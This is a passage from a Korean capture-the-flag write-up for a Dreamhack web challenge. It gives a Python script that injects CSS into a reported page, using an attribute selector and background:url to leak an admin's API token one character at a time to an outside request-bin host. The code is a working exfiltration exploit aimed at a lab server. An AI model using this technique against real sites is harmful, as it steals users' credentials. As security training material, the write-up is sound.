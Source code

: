 # Exploit

일단 request 를 많이 해야하기 때문에, 파이썬으로 request 를 이용하면 될 것 같다고 생각했다.(약간 NoSQL Injection 푸는 느낌)  

```python
import requests
import string

# 한 번 돌리면, request bin 에서 한 글자 가져와서 API 에 넣고 다시 실행
# 이 과정을 8번 반복

# API : 현재까지 찾은 API
API = ""

url = "http://host3.dreamhack.games:18689/api/memo"
headers = {'API-KEY' : API}

if len(API) == 8:
    response = requests.get(url, headers=headers)
    print(response.text)
else:
    data = {'path': ''}

    # 가능한 문자를 하나씩 가져옴
    for j in string.ascii_lowercase:
        url = "http://host3.dreamhack.games:18689/report"
        path = "mypage?color=red; } input[id=InputApitoken][value^=" + API + j + "] { background: url(https://yynstiu.request.dreamhack.games?data=" + API + j + ");"
        data['path'] = path
        response = requests.post(url, data=data)
        print(f"현재 문자 : {j}, 응답 코드 : {response.status_code}")

    print(f"현재 API 길이 : {len(API)}, API : {API}")
```

위의 코드를 돌리면, 한 개의 API 문자를 얻을 수 있다.(차례대로)  

<img src="14.png">  

위와 같이 **data** 쿼리에 현재까지 알아낸 API 를 넣도록 했다.  
결론적으로 이렇게 IP Ping Back 를 하면, 요청이 오므로 이를 반복해서 admin 의 API 를 얻을 수 있다.  
